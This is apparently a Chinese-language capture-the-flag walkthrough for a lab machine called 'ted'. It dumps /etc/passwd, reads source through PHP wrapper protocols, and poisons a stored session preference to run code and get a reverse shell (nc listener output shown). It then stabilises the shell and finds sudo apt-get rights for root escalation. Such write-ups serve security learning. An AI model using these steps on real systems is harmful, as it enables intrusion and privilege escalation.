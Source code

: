 ~~~/etc/passwd
dnsmasq:x:112:65534:dnsmasq:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon:/:/bin/false
pulse:x:117:124:PulseAudio daemon:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon:/var/lib/usbmux:/bin/false
ted:x:1000:1000:Ted:/home/ted:/bin/bash
mysql:x:121:129:MySQL Server:/nonexistent:/bin/false
~~~
发现有ted这个普通用户
只开放了80端口，要想办法利用
靠伪协议拿到源码
![Branching](Pasted image 20241103152124.png)
查看了一些源码，除/authenticate.php中含有数据库的账号密码外没什么有价值的信息
cookie.php中提醒我们的session会被储存起来，试一下利用
![Branching](Pasted image 20241103162559.png)
![Branching](Pasted image 20241103162622.png)
会把我们上一次输入的user_perf保留起来,尝试注入恶意代码，注意要对特殊字符进行url编码，发送两次发现成功解析
![Branching](Pasted image 20241103163052.png)
我们写入shellcode
测试一下，有效！
![Branching](Pasted image 20241103163303.png)
反弹shell！
![Branching](Pasted image 20241103163652.png)
![Branching](Pasted image 20241103163725.png)
# 提权
### 提升一下交互性
~~~
┌──(kali㉿kali)-[~/ted]
└─$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.2.130] from (UNKNOWN) [192.168.2.129] 57940
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ubuntu:/var/www/html$ 
~~~
### 查看sudo权限
~~~
www-data@ubuntu:/home/ted$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get
~~~
我们拥有apt-get的权限
到GTFObins查询
![Branching](Pasted image 20241103164044.png)